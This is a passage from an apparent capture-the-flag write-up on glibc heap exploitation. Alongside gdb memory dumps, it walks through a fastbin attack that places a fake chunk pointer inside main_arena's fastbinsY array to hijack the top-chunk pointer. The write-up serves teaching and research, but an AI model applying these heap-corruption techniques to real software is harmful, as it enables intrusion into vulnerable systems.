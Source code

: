 0x555555769db0: 0x4343434343434343  0x4343434343434343
0x555555769dc0: 0x4343434343434343  0x4343434343434343
0x555555769dd0: 0x00000000000000d0  0x0000000000000030
0x555555769de0: 0x0000000000000000  0x0000555555769c40
0x555555769df0: 0x0000555555769c80  0x0000000000000000
{% endhighlight %}

## Fastbin attack

On the next part I decided to take control over the `milkArr` pointers. This way I can control each individual milk object without worrying for the size of the `milkTable`. Well, this has already been taken care of :). On the last part where I said some coordination was needed, if you notice our "fake" smallbin chunk is located on top of the `milkArr`, now I just need to request a chunk of size which does not have a corresponding free fastbin. This way malloc will serve us a chunk from the currently free smallbin at `0x555555769d10` and placing whatever is the remainder in the unsorted bin (which gave me a lot of trouble later :P). Next with some convolution, I arrange everything so the next allocation of a "flag" buffer for a new milk is going to be allocated on top of already free chunk and I can overwrite its `FD ptr` and do a fastbin attack.

However ! I can't simply place a ptr of `&__malloc_hook - 0x23` in a fastbin like I did [here](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html) because the "fake" size needed to pass the fastbin size allocation will be `0x7f` and the largest heap chunk I can allocate is 0x56 bytes + 0x10 for metadata making it total 0x60 (rounded). So, what to do next ?

## Impossible fastbin attack ?

This is my favorite trick in the book :). Instead of placing a pointer of `&__mallok_hook - 0x23` we are going to place a pointer of `&main_arena + 0x25` which will point right on top of the fastbinsY array.

{% highlight text %}
gdb-peda$ x/40gx &main_arena
0x7ffff7a4fb20 <main_arena>:    0x0000000000000000  0x0000000000000000
0x7ffff7a4fb30 <main_arena+16>: 0x0000555555769dd0  0x0000000000000000
0x7ffff7a4fb40 <main_arena+32>: 0x00007ffff7a4fb45  0x0000555555769d70
0x7ffff7a4fb50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7ffff7a4fb60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7ffff7a4fb70 <main_arena+80>: 0x0000000000000000  0x0000555555769e20
0x7ffff7a4fb80 <main_arena+96>: 0x0000555555769db0  0x0000555555769db0

gdb-peda$ p main_arena
$4 = {
  mutex = 0x0,
  flags = 0x0,
  fastbinsY = {0x0, 0x555555769dd0, 0x0, 0x7ffff7a4fb45 <main_arena+37>, 0x555555769d70, 0x0, 0x0,
    0x0, 0x0, 0x0},
  top = 0x555555769e20,
  last_remainder = 0x555555769db0,
  bins = {0x555555769db0, 0x555555769db0, 0x7ffff7a4fb88 <main_arena+104>,
{% endhighlight %}


What would this do, you ask ? Well, on the next allocation of the appropriate size it will give us the `0x00007ffff7a4fb55` address and the target is the `ptr to the top chunk`. Overwriting the pointer to the top chunk will point the `wilderness/top` to address we want and allocations after that will be served from that memory area ! The only requirement is for the new `top chunk` to have enough data so choosing an address with `new_top_chunk->size != NULL` is required. What about the fastbin size check you might ask again :) ? Well that's why there's an already intentionally free chunk in `0x7ffff7a4fb48` slot. So the MSB `0x55` is going to serve as the size of the free fake fastbin.
